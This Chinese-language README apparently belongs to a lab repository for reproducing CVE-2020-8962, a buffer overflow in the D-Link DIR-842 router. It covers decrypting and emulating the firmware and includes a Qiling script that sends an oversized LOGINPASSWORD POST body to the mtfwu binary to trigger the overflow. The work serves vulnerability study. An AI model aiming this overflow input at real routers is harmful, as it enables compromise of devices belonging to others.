 # D-Link DIR-842 路由器缓冲区溢出漏洞（CVE-2020-8962）


## 漏洞环境

需要解密固件，方法是开启一个 `qemu-user-static:mips` 容器，使用 qemu-mips-static 运行 DIR842C1_FW302b03_middle.bin 的 `usr/sbin/encimg` 程序对 DIR842C1_FW313WWb05.bin.org 进行解密，得到 DIR842C1_FW313WWb05.bin。

```sh
$ docker run --privileged --rm -v $PWD/firmware:/root/firmware -it firmianay/qemu-user-static:mips /bin/bash
$ ./qemu-mips-static -L . ./usr/sbin/encimg ./DIR842C1_FW313WWb05.bin.org

# 98868352a4913aee2d2da4acd8e1a04e  DIR842C1_FW302b03_middle.bin
# c40930278051bbf66f24a657676dd5b4  DIR842C1_FW313WWb05.bin
# ae141c12535cae08e49e4876410ebb9d  DIR842C1_FW313WWb05.bin.org
```

本目录下对固件已经是解密版本，可以直接使用 binwalk 解包，进行后续操作。

```sh
$ docker-compose -f docker-compose-firmadyne.yml build

# 启动环境，账号/密码 root/sohoadmin
$ docker-compose -f docker-compose-firmadyne.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it dlink-firmadyne /bin/bash
```

## 漏洞复现

## Exploit

```py
from qiling import *

def my_syscall_sysinfo(ql, sysinfo_info, *args, **kwargs):
    ql.mem.write(sysinfo_info, b"AAAA") # uptime
    regreturn = 0
    ql.nprint("sysinfo(0x%x) = %d" % (sysinfo_info, regreturn))
    ql.os.definesyscall_return(regreturn)

# dump all registers
def dump_reg(ql, *args, **kwargs):
    for idx, val in ql.reg.save().items():
        if not isinstance(idx, int):
            print(idx, ":", hex(val))
            
    breakpoint()

class Fake_stdin:
    def read(self, size, *args, **kwargs):
        return b'ACTION=login&LOGINPASSWORD=' + b'A' * 0x248

    def fileno(self, *args, **kwargs):
        return 0

if __name__ == "__main__":

    envs = {
            "REQUEST_METHOD": "POST",
            "REQUEST_URI": "/MTFWU",
            "CONTENT_TYPE": "application/x-www-form-urlencoded",
            "HTTP_MTFWU_ACT": "Login",
            "HTTP_COOKIE": "uid=AAAA",
            "CONTENT_LENGTH": str(27+0x248), 
            }

    ql = Qiling(["squashfs-root/usr/sbin/mtfwu"], "squashfs-root", 
                output="default",
                env=envs,           # setting environment variables 
                stdin=Fake_stdin()) # hijack stdin with Fake_stdin
                
    ql.set_syscall("sysinfo", my_syscall_sysinfo)  # syscall hook for sysinfo
    ql.set_syscall("_newselect", lambda *_: None)  # hook syscall _newselect with anonymous NOP function to avoid manual input requirement
    ql.hook_address(dump_reg, 0x41db40)            # breakpoint before return and dump all register
    ql.run()
```

## 参考链接

- https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-8962
- https://ctrsec.io/index.php/2020/02/12/cve-2020-8962-d-link-dir-842-stack-based-buffer-overflow/
- https://ucgjhe.github.io/post/cve_2020_8962/
